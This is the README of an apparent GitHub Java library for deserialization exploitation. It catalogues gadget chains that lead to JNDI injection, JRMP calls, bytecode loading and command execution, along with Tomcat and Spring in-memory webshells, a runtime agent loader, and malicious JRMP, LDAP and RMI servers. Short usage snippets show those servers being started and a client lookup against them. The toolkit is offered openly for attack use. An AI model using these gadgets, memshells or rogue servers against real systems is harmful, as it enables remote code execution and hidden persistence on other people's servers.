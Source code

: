 

# Java-unser-utils

使用java8编译。

使用方式：

idea打开源码，使用maven的package，得到一个jar。

直接maven导入。

```
<dependency>
    <groupId>cn.org.unk</groupId>
    <artifactId>Java-unser-utils</artifactId>
    <version>1.0-SNAPSHOT</version>
    <scope>system</scope>
    <systemPath>E:/ideaProjects/Java-unser-utils/target/Java-unser-utils-1.0-SNAPSHOT.jar</systemPath>
</dependency>
```





## Gadget

内置常用反序列化gadget：

- getJdbcRowSetImpl

  getter -> jndi

- getLDAPAttribute

  getter -> jndi

- getSingnedObject

- getTemplateImpl

  - getTemplateImpl("calc");
  - getTemplateImpl( byteCode to load );

- getPKCS9Attributes_BCEL

  toString -> load BCEL bytecode

- getJRMPPayloadJDK8u231

  readObject -> 发送JRMP请求

- getJRMPPayloadJDK8u241

  readObject -> 发送JRMP请求

- getPOJONodeStableProxy

  用JdkDynamicAopProxy封装对象（一般是TemplatesImpl），使得POJONode可稳定触发getter。

- getStyledEditorKit.AlignmentAction

  - getAlignmentActionForToString

    readObject -> toString

  - getAlignmentActionForEquals

    readObject -> equals

- getBadAttributeValueExpException

  readObject -> toString

- getEventListenerList

  readObject -> toString

- getAnnotationInvocationHandler

- getHashMap_HotSwappable_XString

  readObject -> toString

- getHashMap_XString

  readObject -> toString

- getURLDNS



## Util

- serialize
- unserialize
- createWithoutConstructor
- createWithConstructor
- setFieldValue
- byte2Hex
- file2ByteArray
- byteArray2File
- inputStream2ByteArray



## Memshell

常用的内存马。

注意，这些内存马需要使用者自行编译， 注意不能带包名，才能被加载。

### Tomcat

FilterShell

ListenerShell

ServletShell

### Spring

EvilController

EvilControllerHigherVersion

EvilInterceptor



## AgentLoader

用于运行时动态加载javaagent，无需添加JVM参数。适用于java8。

使用方式：

```
new AgentLoader("这里填main方法所在类的全限定名").loadAgent("agent包的绝对路径");
```





## JRPM Server

- JRMPListener

  启动一个恶意JRMP服务器。

  使用方式：

  ```
  new JRMPListener(port,"your_Object_to_unserialize").start();
  ```

## JNDI Server

- LDAPRefServer

  低版本JNDI，ref方式，ldap路线

  ```
  new LDAPRefServer(7777,"http://127.0.0.1:8000/#Evil").start();
  ```

- RMIRefServer

  低版本JNDI，ref方式，rmi路线

- LDAPSerializedDataServer

  打高版本JNDI触发反序列化

  ```
  new LDAPSerializedDataServer(7777,Util.serialize(new Bean())).start();
  ```

  客户端连接方式：

  ```
  new InitialContext().lookup("ldap://ip:7777/anything_is_ok");
  ```

  

  









